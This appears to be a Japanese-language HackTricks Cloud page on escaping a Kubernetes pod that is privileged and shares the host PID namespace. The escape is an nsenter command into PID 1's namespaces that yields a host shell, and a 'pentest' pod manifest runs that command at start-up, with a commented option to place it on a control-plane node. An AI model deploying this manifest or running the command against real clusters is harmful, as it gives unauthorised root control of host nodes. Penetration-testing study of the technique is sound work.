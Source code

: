 # Pod Escape Privileges

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Privileged and hostPID

これらの特権を持つことで、**ホストのプロセスにアクセス**し、**ホストプロセスの名前空間に入るための十分な特権を持つ**ことになります。\
特権が必要ない場合もあり、単にいくつかの能力や他の潜在的な防御をバイパスすることができるかもしれません（例えば、apparmorやseccompなど）。

次のようなコマンドを実行するだけで、ポッドから脱出することができます：
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```
設定例:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: priv-and-hostpid-exec-pod
labels:
app: pentest
spec:
hostPID: true
containers:
- name: priv-and-hostpid-pod
image: ubuntu
tty: true
securityContext:
privileged: true
command: [ "nsenter", "--target", "1", "--mount", "--uts", "--ipc", "--net", "--pid", "--", "bash" ]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
